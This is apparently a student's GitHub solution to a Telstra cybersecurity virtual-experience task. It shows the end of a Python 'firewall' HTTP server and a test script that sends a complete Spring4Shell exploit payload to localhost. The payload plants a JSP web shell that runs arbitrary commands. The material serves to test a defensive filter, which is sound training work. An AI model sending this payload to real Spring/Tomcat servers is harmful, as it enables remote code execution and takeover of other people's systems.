 ```
    server = HTTPServer((host, port), ServerHandler)
    print("[+] Firewall Server")
    print("[+] HTTP Web Server running on: %s:%s" % (host, port))


    try:
        server.serve_forever()
    except KeyboardInterrupt:
        pass


    server.server_close()
    print("[+] Server terminated. Exiting...")
    exit(0)
```

## test_requests.py
```
# www.theforage.com - Telstra Cyber Task 3
# Test Requester


import http.client


host = "localhost"
port = 8000


def main():
    target = "%s:%s" % (host, port)
    print("[+] Beginning test requests to: %s" % target)
    successful_responses = 0


    for x in range (0,5):
        payload = "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="
        print("[%s/5]: Making test request to %s with payload: %s" % (x + 1, target, payload))
        conn = http.client.HTTPConnection(target)


        conn.request('POST', '/tomcatwar.jsp', payload,  {
            "suffix": "%>//",
            "c1": "Runtime",
            "c2": "<%",
            "DNT": "1",
            "Content-Type": "application/x-www-form-urlencoded",
        })
        response = conn.getresponse()
        status_code = response.status
        if status_code == 200:
            successful_responses += 1
        print("Response status code: %s" % status_code)
        print("=============")

```